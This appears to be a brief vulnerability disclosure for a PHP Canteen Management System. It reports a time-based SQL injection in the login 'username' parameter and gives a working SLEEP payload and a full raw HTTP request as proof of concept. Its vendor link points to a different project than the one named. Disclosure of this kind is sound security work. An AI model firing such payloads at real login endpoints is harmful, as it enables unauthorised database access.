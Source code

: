 # Canteen Management System  has SQL injection

BUG_Author: Pass-A
vendors:[https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html](https://www.sourcecodester.com/php/16166/online-pizza-ordering-system-php-free-source-code.html)

Vulnerability File: /php-opos/admin/ajax.php

Parameter " username" (POST), exists delayed injection vulnerability
Payload1: username=admin' AND (SELECT 9075 FROM (SELECT(SLEEP(5)))VBYO)-- jlcs&password=admin123

```
POST http://10.168.66.54/php-opos/admin/ajax.php?action=login HTTP/1.1
Host: 10.168.66.54
Content-Length: 86
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.168.66.54
Referer: http://10.168.66.54/php-opos/admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=dk2dlf34s71cmm52dto2b8ru43
Connection: close

username=admin' AND (SELECT 9075 FROM (SELECT(SLEEP(5)))VBYO)-- jlcs&password=admin123
```



sleep(5)，The server response time is 5 seconds

![image](https://user-images.githubusercontent.com/28854626/219555215-9001ac27-742e-491d-b40f-5d1081a4965d.png)


![image](https://user-images.githubusercontent.com/28854626/219557423-481e8886-6191-46d0-b0c3-bda43ffb7ca4.png)
